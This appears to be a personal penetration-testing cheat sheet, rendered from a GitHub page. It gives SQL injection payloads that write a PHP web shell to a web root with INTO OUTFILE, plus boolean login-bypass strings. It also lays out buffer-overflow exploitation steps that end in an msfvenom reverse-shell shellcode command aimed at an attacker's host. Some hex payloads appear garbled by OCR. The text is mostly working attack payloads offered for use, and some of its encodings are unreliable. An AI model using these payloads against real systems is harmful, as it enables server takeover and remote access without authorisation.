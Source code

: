IF the setting allowed, we can write file
Usually We hex encode the payload

<?php system($_GET[‘cmd’]); ?>
to
0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d

1. `' UNION SELECT 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d INTO OUTFILE '/var/www/html/cmd.php' -- -`
2. `<original_value>' 0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d INTO OUTFILE '/var/www/html/cmd.php' -- -`

IF None work
1. <original_value>' INTO OUTFILE '/var/www/html/cmd.php' LINES TERMINATED BY [Any,terminator, usually the hex encoded RCE code] -- -
Ex:
288cc16ac43351ff676132e9fd7c6ef3' INTO OUTFILE '/var/www/html/cmd.php' LINES TERMINATED BY 3C3F7068702073797374656D28245F4745545B27636D64275D293B3F3E -- -

Trueing
1. Dont just do `' or 1=1 -- - `
2. Try ' or '1' = '1  >> This should return true too
ex: 
where username = ''
where username = '' or '1' = '1' 



**Bufferoverflow**

## Peda https://myexperiments.io/exploit-basic-buffer-overflow.html
1. i func
find the function address we want to jump to
2. gdb [binary]
3. pattern create [value]
4. run '[the pattern]'
see the EIP value
5. pattern offset [EIP value]
we got the exact overflow value
6. python -c "print 'A' * [exact_value] + '[target address]'"
target address usually little endian
ex: 0x80484c6 >>>> \xc6\x84\x04\x08

## Using msf-pattern and BOP usual case
1. Predict the size
2. msf-pattern_create.rb -l [the size] >>> we got the address
3. msf-pattern_offset.rb -l [the size] -q [the EIP value] >>> we got the exact overflow value
4. Find badchars (missing hex from the badchars list) >>> payload + badchars
5. Find unprotected module, use `!mona modules` or smth
6. Find jmp pointer (ESP) on unprotected module, use `!mona find -s "\xff\xe4" -m [unprotected dll or exe]`
7. Got the ESP address, change it to little endian format
ex: 0x080414C3 >>> \xC3\x14\x04\x08
8. Overwrite the EIP with the little endian ESP address
9. Generate shellcode with the badchars >>> overwrite with shellcode to gain remote access
Example:
msfvenom -p windows/shell_reverse_tcp LHOST=[yourip] LPORT=[yourport] EXITFUNC=thread -f c -a x86 -b "\x00"
